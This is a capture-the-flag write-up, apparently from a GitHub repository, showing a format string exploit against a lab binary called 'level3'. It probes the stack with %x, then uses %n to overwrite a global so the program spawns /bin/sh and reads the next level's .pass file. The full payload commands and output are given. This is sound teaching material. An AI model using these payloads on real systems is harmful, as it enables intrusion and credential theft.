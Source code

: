 # Level 3

Here, we have a program reading on stdin again. But by decompiling the code, whe can see a fgets function reading 512 bytes and storing them in a buffer of 520. So... no overflow possible here.

```c
int m;

void v(void) {
  char buff [520];
  
  fgets(buff, 512, stdin);
  printf(buff);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 12, stdout);
    system("/bin/sh");
  }
  return;
}
```
**We can already see our goal here, the if statement with "m" and the value 64. If we can make "m" equal to 64, we win.** 

One line is in fact a little bit weird:
```c
printf(buff)
````
No format? Only one argument? Why?

Let's introduce our new exploit the **Format string attack**. This attack use this missuse of printf functions to interact with the memory. More precisely, we can use thoses threes format to play:
 - "%x" Read data from the stack
 - "%s" Read character strings from the memory
 - "%n" Write an integer to locations in the memory

An example:
```c
$ ./level3 <<< %d
512
```
Here, printf return the first value in the memory so it's working!

First, we have to find the emplacement of the printf buffer in the memory.
```sh
$ ./level3 <<< AAAA$(python -c "print('.%08x' * 4)")
AAAA.00000200.b7fd1ac0.b7ff37d0.41414141

$ ./level3 <<< AAAA%x%x%x%x
AAAA200b7fd1ac0b7ff37d041414141
```
Here, we can see our buffer in hexa, meaning we found the emplacement.
Now we can use this information to prepare our injection by shifting to the memory and try to access something.
```sh
$ ./level3 <<< AAAA%x%x%x%s
Segmentation fault (core dumped)
```
In this example, we are printing 0x41414141 who segfault because it does  not exist in the memory. But we can try with something existing like the argument of the system function "/bin/sh" (0x804860d).
```sh
$ ./level3 <<< $(printf "\x0d\x86\x04\x08")"%x%x%x | %s"
200b7fd1ac0b7ff37d0 | /bin/sh
```
Look it's our memory!!

Let's try now to modify "m" with this. For this we need the address of "m":
```sh
$ gdb -q ./level3 
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 

Breakpoint 1, 0x080484ad in v ()
(gdb) dissas
Undefined command: "dissas".  Try "help".
(gdb) disass
Dump of assembler code for function v:
	...
	0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
	0x080484cc <+40>:	lea    -0x208(%ebp),%eax
	0x080484d2 <+46>:	mov    %eax,(%esp)
	0x080484d5 <+49>:	call   0x8048390 <printf@plt>
	0x080484da <+54>:	mov    0x804988c,%eax
	0x080484df <+59>:	cmp    $0x40,%eax
	0x080484e2 <+62>:	jne    0x8048518 <v+116>
	...   
End of assembler dump.
```
We can see that 64 (0x40) is compared with the address **0x804988c**, it's "m".

To modify the value, we have to use "%n" and we can play with "%x" and the field width to increment the value.

```sh
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%x%n
(gdb) x/d 0x804988c
0x804988c <m>:  23
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%50x%n
(gdb) x/d 0x804988c
0x804988c <m>:	65
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%49x%n
(gdb) x/d 0x804988c
0x804988c <m>:	64
(gdb) c
Continuing.
Wait what?!
```
As we saw, "m" is now equal to 64 and we run the shell. So the final command is: 
```sh
$ (echo $(printf "\x8c\x98\x04\x08")%x%x%49x%n; cat) | ./level3 
�200b7fd1ac0                                         b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```

Sources:<br>
[OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack) <br>
[Hacking - The Art of exploitation](https://www.amazon.fr/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)